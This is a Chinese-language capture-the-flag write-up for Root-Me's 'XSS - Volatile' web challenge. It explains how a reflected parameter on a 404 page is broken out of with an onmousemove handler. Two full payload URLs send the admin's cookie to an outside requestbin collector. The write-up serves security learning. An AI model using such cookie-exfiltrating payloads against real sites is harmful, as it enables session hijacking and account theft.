


Root-Me [XSS - Volatile](https://www.root-me.org/fr/Challenges/Web-Client/XSS-Volatile)
===

題目頁面比較類似真實營運中的網站。

## 提示訊息
```
Trouvez le moyen de voler le cookie de l’administrateur.
Attention, cet administrateur est sensibilisé à la sécurité et il est possible qu’il ne clique pas sur des liens étranges.
```

## 解題關鍵
1. JavaScript

## 解題方法
在服務上找到聯絡功能，感覺是唯一的注入點，可以填寫 `名稱`、`Email`、`訊息`，但經過嘗試之後，得不到任何回饋...
，故可能是個幌子，而在 `menu` 的原始碼區段中發現 `<!--li><a href="?p=security">Security</a></li-->`，有個頁面為 `Security` 網址為 `?p=security`，卻是個 404 頁面。  



但嘗試將 `p=security` 改成其他的參數，404 頁面上的 `The page ${p} could not be found.` 也會相對改變，沒錯! 這就是注入點。  

如何運用該弱點來讓管理者上鉤呢? 首先該 404 有回報功能，所以建構惡意的 URL 在將 404 內容回報即可，但問題出在如何建構。  



該 URL 的 `p` 呈現的位置是一個超連結，可以運用截斷，並增加 `<a href>` 的 JavaScript 事件來達成手法，可以選用 `onmousemove`(當滑鼠滑過)來觸發。

```
http://challenge01.root-me.org/web-client/ch26/?p=x' onmousemove='document.location="http://requestbin.fullcontact.com/12qlilf1?cookie=" %2b document.cookie
```

但發現沒有成功將資料回傳到 `requesbin` 上，為了簡化問題，先把後方的 cookie 部分拿掉，試試看管理員究竟有沒有觸發該 XSS。  

結果還是沒有成功，發現問題在於 Payload 最後方需要加上 `"` 雙引號做結尾，雖然自己觸發的時候會動，但送出去後，管理員就是不會觸發。  

加上最後的單引號後能解決不回傳至 `requesbin` 的問題，但解決不了 `cookie` 回傳的問題，這時候必須要捨棄掉 `%2b`（+） 的用法，改用 `concat()` 來將 URL 與 cookie 拼接起來，如下，解決該題。

```
http://challenge01.root-me.org/web-client/ch26/?p=x' onmousemove='document.location="http://requestbin.fullcontact.com/12qlilf1?cookie=".concat(document.cookie)
```

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)